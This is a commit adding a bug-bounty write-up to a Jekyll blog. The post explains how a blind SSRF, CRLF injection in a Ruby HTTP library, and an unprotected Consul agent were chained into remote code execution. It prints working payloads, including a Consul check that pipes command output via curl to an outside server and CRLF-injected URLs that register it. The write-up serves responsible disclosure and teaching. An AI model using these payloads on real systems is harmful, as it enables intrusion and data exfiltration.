

Before and after one commit to darkarnium/darkarnium.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 65% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; Markdown is read by kramdown in place of the engine named in the settings; the list of posts is cut into pages by our own code; before the commit the page ends 2122 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
Added new write-up

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -1,5 +1,6 @@
 # Build settings
-markdown: redcarpet
+# markdown: redcarpet
+markdown: kramdown
 highlighter: pygments
 
 # Enable footnotes.
--- /dev/null
+++ b/_posts/2017-05-02-Pivoting-from-blind-SSRF-to-RCE-with-Hashicorp-Consul.md
@@ -0,0 +1,131 @@
+---
+layout: post
+title: Pivoting from blind SSRF to RCE with Hashicorp Consul
+date: 2017-05-02 00:00:00.000000000 -08:00
+author: Peter Adkins
+image:
+---
+
+This post details an example of chaning three relatively trivial vulnerabilities to achieve remote code execution on a Bug Bounty target. These vulnerabilities alone would have likely been of low severity, but when used together they were scored and rewarded together as a High Priority (P1) issue.
+
+This vulnerability was originally reported to `$provider` on the 24th of April, rewarded as a valid finding on the 27th of April, and patched by the 1st of May. Not only was the communication with both the Bugcrowd ASE and `$provider` fantastic, a patched was rolled out not long after initial triage and the vulnerability confirmed resolved.
+
+## Bring-Your-Own SOAP!
+
+![Well, not quite.](/assets/article_images/2017/soap.jpg){: .center-image }
+
+While doing an initial walk through of one of the web applications in-scope of a bounty program run by `$provider` an interesting feature piqued my interest. This feature allowed a logged in user to provide the URL for an external web service which would be contacted in order to load some data. Looking further, the communication between the web application and the user-provided URL was in a well defined format which utilized SOAP for data exchange. This immediately put this part of the application at top of the 'things to look into' list, as accepting user-provided URLs and retrieving data on their behalf is notoriously difficult to implement in a secure manner.
+
+### Go Fish?
+
+Given that a complete URL for an external web service was able to be provided, I first attempted to use this feature to fetch and return data from a service that shouldn't be publicly accessible - being the `instance-id` 'endpoint' in the Amazon EC2 metadata service (`http://169.254.169.254/latest/meta-data/instance-id`).
+
+Unfortunately, it was quickly found that although the service appeared to successfully query the meta-data service, the code handling the 'fetch' was written in such a way that if the remote service returned an HTTP 200, the body of the request would be fed directly into an XML parser. As a result of this design, the web application simply raised a generic error that the remote service had returned invalid XML.
+
+A subsequent fetch for a document that did _NOT_ exist found that on HTTP 4XX errors, the response from the HTTP request would be rendered inside of the error returned to the user.  However, while this is neat I couldnt see any cases where sensitive data may may be returned AND the response code would be returned in the 4XX range. After some additional testing, it was found that even when the remote service responded with valid XML, content was never returned to the user; only a basic 'success' message was ever returned.
+
+### External Entities?
+
+Given that it didn't seem possible to return the content of a successfully fetched external resource, the next thought was to attempt to use XXE (XML Enternal Entities) in order to fetch a document from the local machine (using a `file:///` URI) and push it to a remote endpoint using a "blind" XXE style attack.
+
+![No dice](/assets/article_images/2017/NoDice.jpg){: .center-image }
+
+Unfortunately, it seemed that the XML parser had been properly configured to ignore external entities. Boo.
+
+### A wild Consul appears!
+
+A this stage, it didn't seem possible to reflect any data fetched from a remote source. In order to further validate this, I performed a quick check to see whether a number of different URIs were able to be used with the external fetch in place of HTTP. The thought was that an another protocol handler might yield a different result, potentially accidentally leaking data in the error presented to the user. As part of this testing, a number of URIs were attempted, including `file:///`, `tcp://`, `gopher://`, and a few others. Unfortunately all of these URIs appeared to be passed to a Ruby HTTP library that would simply not perform any request that didn't have an HTTP / HTTPS URL.
+
+As one last ditch effort to return _some_ sort of data, a few localhost URLs were entered to see how the HTTP library would handle non-printable data.
+
+* The first attempt was for TCP 22 (`https://127.0.0.1:22`) which returned a `Connection reset by peer` error.
+  * This was a good indication that there was an SSH service listening which didn't like our request.
+* The second request was for TCP 5666 (`http://127.0.0.1:5666`) which yielded a timeout.
+  * This indicated that there was likely no NRPE (Nagios Remote Plugin Executor) agent on the machine, or at least not accessible from `localhost`.
+* The final request was for TCP 8500 (`http://127.0.0.1:8500`) which returned the same XML parsing error encountered when a valid HTTP 2XX response was encountered.
+  * This was a good indication that there was likely a Hashicorp Consul agent running on the machine.
+
+### So now what?
+
+At this stage the following was known about the target:
+
+1. External documents were able be fetched from HTTP / HTTPS sources.
+2. Requests sent from the service were SOAP, and were submitted to the user provided URL via HTTP POST.
+3. XML External Entities were disabled on the XML parser.
+4. There was a local Hashicorp Consul agent on the machine (potentially).
+5. Response data was never returned to the user on HTTP 2XX, only on HTTP 4XX.
+6. HTTP 3XX messages were unhandled, and redirections were not followed.
+7. No data was returned on HTTP 2XX responses.
+8. The agent fetching remote URLs was written in Ruby based on the `user-agent`.
+
+Given that I had previously encountered Hashicorp Consul agents in other bounty programs, I turned to the Consul manual to see whether there were any endpoints that may assist in escalating this vulnerability into something less lame.
+
+!["This lost a LOT in the translation"](/assets/article_images/2017/manual.png){: .center-image }
+
+Luckily, after a bit of searching I found a reference in the Consul documentation which made mention of an endpoint at `/v1/agent/check/register`; allowing for registration of a 'check command' (arbitrary shell command) via an HTTP PUT request. Although the Consul agent does allow for ACLs to be applied to these endpoints to limit use, this is **not enabled by default** so I thought it was worth a try.
+
+In order to test this I fired up a local VM and installed the Consul agent in order to construct a valid payload and test on a default installation. After a short while, I had the following payload constructed which would execute a shell command and pipe the output to a remote server using an HTTP POST every 60 seconds:
+
+```
+{
+    "id": "DarkarniumTest",
+    "name": "DarkarniumTest",
+    "script": "/bin/uname -a | /usr/bin/curl -k -XPOST -d @- https://some-server",
+    "interval": "60s",
+    "timeout": "5s"
+}
+```
+
+Ignoring the fact that I was unable to specify a payload in the target web application, I also found that the Consul check registration endpoint endpoint would **NOT** respond to an HTTP POST, only an HTTP PUT.
+
+### So, PUT from a POST?
+
+The final piece of the puzzle to solve was how to construct an HTTP PUT with a specific JSON body (the check payload above) from a script which was hardcoded to perform HTTP POST with a non user controllable payload. Thinking back to potential caveats with URL parsing, I remembered encountering issues in the past with Ruby and Python HTTP libraries not properly handling `\r\n` (Carriage-Return, Line-Feed) characters in URLs and HTTP headers. The result of this was usually that a user could inject arbitrary HTTP headers or payloads into predefined HTTP requests by tampering with the URL in the right way.
+
+To test whether this was able to be used in this case, I constructed an URL which, if handled incorrectly by the library, should add a `Connection: Keep-Alive` HTTP header to the request and tack on a subsequent HTTP PUT operation after the 'hardcoded' HTTP POST. This initial test URL looked something like the following:
+
+```
+https://mockbin.org/bin/UUID?Test1 HTTP/1.1\r\nConnection: keep-alive\r\nHost: example.org\r\nContent-Length: 1\r\n\r\n1\r\nPUT /bin/UUID?Test2 HTTP/1.0\r\n\r\n\r\n
+```
+
+In order to test this, I performed a regular request in the web application using a browser and then replayed the request using OWASP ZAP in order to allow for tampering with the payload after the fact.
+
+![POST / PUT](/assets/article_images/2017/POST_PUT.png){: .center-image }
+
+Success! The HTTP library appeared to be incorrectly processing the `\r\n` characters in the URL HTTP GET parameters, and injecting additional HTTP requests! As a result, it was confirmed possible to construct arbitrary HTTP requests after the initial hard-coded HTTP POST using only the URL.
+
+### Putting it all together.
+
+Now that I had a method to perform arbitrary HTTP requests against a given server I could finally confirm whether the TCP 8500 listener was indeed an Hashicorp Consul agent, and whether it had been ACL'd appropriately.
+
+In order to test this, I constructed a URL which used `\r\n` characters to terminate the original HTTP POST with a `Content-Length` of `1` (with a payload of `1`) and then perform a 'follow-on' request containing an HTTP PUT request to create an 'HTTP check' inside of the Consul agent. The constructed URL looked something like the following:
+
+```
+http://127.0.0.1:8500/? HTTP/1.1\r\nConnection: keep-alive\r\nHost: example.org\r\nContent-Length: 1\r\n\r\n1\r\nPUT /v1/agent/check/register HTTP/1.1\r\nHost: example.org\r\nContent-Length: 121\r\n\r\n{"id": "BugcrowdDarkarnium","name": "BugcrowdDarkarnium","http": "http://some-server/","interval": "60s","timeout": "5s"}
+```
+
+After submission of this payload in the URL field I had to wait for up to a minute to see whether the 'check' would fire, as the interval was configured to 60 seconds to prevent loading up the server with unnecessary HTTP requests.
+
+![Lookin good!](/assets/article_images/2017/consul-http-get-sanitized.png){: .center-image }
+
+A few anxious moments later, I saw a successful HTTP GET against my testing server with a User-Agent of `Consul Health Check`, confirming that this was both a Consul agent and that ACLs weren't applied to the `check` endpoint!
+
+In order to confirm whether I **could** use this to pop a shell on the remote system (without actually popping a shell, given that this was a bounty program not a red team exercise), I modified the request slightly; replacing the `http` check with a `script` check configured it to pipe the result of `uname -a` into an HTTP POST request using CURL. The final payload looked something like the following:
+
+```
+http://127.0.0.1:8500/? HTTP/1.1\r\nConnection: keep-alive\r\nHost: example.org\r\nContent-Length: 1\r\n\r\n1\r\nPUT /v1/agent/check/register HTTP/1.1\r\nHost: example.org\r\nContent-Length: 195\r\n\r\n\u007B\u0022id\u0022: \u0022BugCrowdDarkarnium\u0022,\u0022name\u0022: \u0022BugCrowdDarkarnium\u0022,\u0022script\u0022: \u0022/bin/uname -a | /usr/bin/curl -k -XPOST -d @- https://some-server/writer/writer.php?f=uname\u0022,\u0022interval\u0022: \u002260s\u0022,\u0022timeout\u0022: \u00225s\u0022\u007D
+```
+
+Once again, I dropped this new payload into the "URL" field and submitted the payload, waiting anxiouslyt to see whether it'd execute the command and send the output back over HTTPS...
+
+A few moments later, I heard a ping from my Nginx logs which confirmed that I had an RCE!
+
+![Pop!](/assets/article_images/2017/consul-https-rce-sanitized.png){: .center-image }
+
+With that, I constructed a few more requests to remove these injected `check` commands from Consul, grabbed a beer, finished writing-up the report and submitted the bug over to the kind folks at `$provider`.
+
+### Thanks
+
+A big thanks to the Bugcrowd ASE that helped triage this bug, and got the `$provider` folks looped in quickly. I'd also like to thank `$provider` for the great communication, quick fix and the bounty; keep it up! :)
+
+Finally, cheers @yrp604 for proof reading this write-up and correcting my terrible grammar.
--- a/css/main.sass
+++ b/css/main.sass
@@ -38,6 +38,14 @@ body
   -webkit-font-feature-settings: "liga", "dlig"
   -o-font-feature-settings: "liga", "dlig"
   font-feature-settings: "liga", "dlig"
+
+pre
+  white-space: pre-wrap
+
+.center-image
+  display: block
+  max-width: 100%
+  height: auto
 
 .logo-readium
   position: fixed
--- a/css/print.css
+++ b/css/print.css
@@ -1,6 +1,16 @@
 .article-image{
 page-break-after:never
 }
+
+pre {
+  white-space: pre-wrap
+}
+.center-image {
+  display: block
+  max-width: 100%
+  height: auto
+}
+
 .post-content,
 .bottom-teaser.cf{
   padding-top:0!important
````
